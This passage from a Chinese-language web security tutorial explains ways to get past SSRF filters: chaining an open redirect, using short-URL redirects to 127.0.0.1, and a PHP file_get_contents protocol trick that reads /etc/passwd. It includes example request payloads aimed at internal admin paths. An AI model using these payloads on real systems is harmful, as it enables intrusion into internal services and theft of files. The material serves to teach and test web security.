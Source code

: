 有时可以通过利用开放重定向漏洞来规避任何类型的基于过滤器的防御。

在前面的 SSRF 示例中，假设用户提交的 URL 被严格验证以防止恶意利用 SSRF 行为。但是，允许使用 URL 的应用程序存在开放重定向漏洞。如果用于发出后端 HTTP 请求的 API 支持重定向，您可以构建一个满足过滤器的 URL，并将请求重定向到所需的后端目标。

例如，假设应用程序包含一个开放重定向漏洞，其中包含以下 URL：

```shell
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

返回重定向到：

```shell
http://evil-user.net
```

可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，方法如下：

```shell
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> 此 SSRF 漏洞利用之所以有效，是因为应用程序首先验证提供的`stockAPI`URL 是否位于允许的域中，而事实确实如此。然后应用程序请求提供的 URL，这会触发打开重定向。它遵循重定向，并向攻击者选择的内部 URL 发出请求。

### 4. 短地址绕过

直接使用生成的短连接 https://4m.cn/FjOdQ就会自动302跳转到 http://127.0.0.1/flag.php上，这样就可以绕过WAF了：

### 5. 利用不存在的协议绕过指定协议头

`file_get_contents()`函数的一个特性，即当PHP的`file_get_contents()`函数在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。（include()函数也有类似的特性）

```php
// ssrf.php
<?php
highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['url'])){
die("no hack");
}
echo file_get_contents($_GET['url']);
?>
// 这里只显示了 https 开头的路径
    
ssrf.php?url=httpsssss://../../../../../../etc/passwd
```

### 6. URL 解析问题

> 该思路来自Orange Tsai成员在2017 BlackHat 美国黑客大会上做的题为[《A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages》](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)的分享。主要是利用readfile和parse\_url函数的解析差异以及curl和parse\_url解析差异来进行绕过。
